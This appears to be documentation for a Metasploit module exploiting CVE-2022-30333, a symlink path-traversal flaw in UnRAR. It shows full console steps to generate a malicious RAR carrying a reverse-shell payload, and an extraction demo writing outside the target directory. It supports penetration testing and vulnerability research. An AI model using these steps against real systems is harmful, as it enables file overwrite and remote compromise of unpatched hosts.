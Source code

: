 ## Vulnerable Application

This module exploits a symlink-based path traversal vulnerability in UnRAR 6.11 and earlier (open source version 6.1.6 and earlier). You can get the vulnerable versions here:

* [Vulnerable unRAR version](https://www.rarlab.com/rar/rarlinux-x64-611.tar.gz)
* [Github commit](https://github.com/pmachapman/unrar/commit/22b52431a0581ab5d687747b65662f825ec03946)

This module creates a generic RAR file containing whatever `PAYLOAD` the user configured.

## Verification Steps

To generate the .rar file:

```
msf6 > use exploit/linux/fileformat/unrar_cve_2022_30333
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/fileformat/unrar_cve_2022_30333) > set RHOSTS 10.0.0.154
RHOSTS => 10.0.0.154
msf6 exploit(linux/fileformat/unrar_cve_2022_30333) > set LHOST 10.0.0.146
LHOST => 10.0.0.146
msf6 exploit(linux/fileformat/unrar_cve_2022_30333) > set TARGET_PATH ../../../../../../tmp/docstest.txt
TARGET_PATH => ../../../../../../tmp/docstest.txt
msf6 exploit(linux/fileformat/unrar_cve_2022_30333) > exploit

[*] Target filename: ../../../../../../tmp/docstest.txt
[+] payload.rar stored at /home/ron/.msf4/local/payload.rar
```

Then, with a vulnerable versions of UnRAR (see the link above), extract it:

```
ron@fedora ~/shared/analysis/zimbra-unrar/rar $ ./unrar x -o+ ~/.msf4/local/payload.rar

UNRAR 6.11 freeware      Copyright (c) 1993-2022 Alexander Roshal

Extracting from /home/ron/.msf4/local/payload.rar

Extracting  hhgdzigwkgv                                               OK 
Extracting  hhgdzigwkgv                                               OK 
All OK
ron@fedora ~/shared/analysis/zimbra-unrar/rar $ ls -l hhgdzigwkgv 
lrwxrwxrwx. 1 ron games 34 Jul 27 13:04 hhgdzigwkgv -> ../../../../../../tmp/docstest.txt

ron@fedora ~/shared/analysis/zimbra-unrar/rar $ file /tmp/docstest.txt
/tmp/docstest.txt: data
```

## Options

### `FILENAME`

The filename to generate, typically it's `payload.rar` and that works fine.

### `TARGET_PATH`

The path, including traversal characters (`../`) and the filename. The slashes' direction doesn't matter, that gets fixed in the module.

## Scenarios

This is a pretty generic exploit that can be used against any software with a bad version of UnRAR.

We also built a specific exploit for Zimbra - `exploit/linux/http/zimbra_unrar_cve_2022_30333`.
